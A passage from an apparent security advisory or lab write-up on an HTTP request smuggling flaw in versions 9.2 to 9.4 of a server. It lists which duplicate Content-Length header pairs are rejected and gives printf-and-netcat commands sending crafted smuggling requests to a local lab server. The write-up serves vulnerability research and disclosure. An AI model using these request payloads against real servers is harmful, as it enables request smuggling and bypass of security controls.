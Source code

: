 First problem, on version 9.2 it was still allowed to use two "Content-Length" headers. On versions 9.3 and 9.4 it was harder, but if the **first header value is 0** this was still allowed.

```
Rejected:
    Content-Length: 200\r\n
    Content-Length: 99\r\n
Rejected:
    Content-Length: 200\r\n
    Content-Length: 200\r\n
Rejected:
    Content-Length: 0\r\n
    Content-Length: 200\r\n
    Content-Length: 0\r\n
Rejected:
    Content-Length: 0\r\n
    Content-Length: 99\r\n
    Content-Length: 200\r\n
Rejected:
    Content-Length: 200\r\n
    Content-Length: 0\r\n
Accepted:
    Content-Length: 0\r\n
    Content-Length: 200\r\n
```

Exemple in the lab:

```bash
printf 'GET /?test=4966 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 45\r\n'\
'Content-Length: 0\r\n'\
'\r\n'\
'GET /?test=4967 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994 | grep "HTTP"

HTTP/1.1 400 Duplicate Content-Length
```

Here it was a nice rejection, that's OK.

```bash
printf 'GET /?test=4968 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4969 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994 | grep "HTTP"

HTTP/1.1 200 OK
```
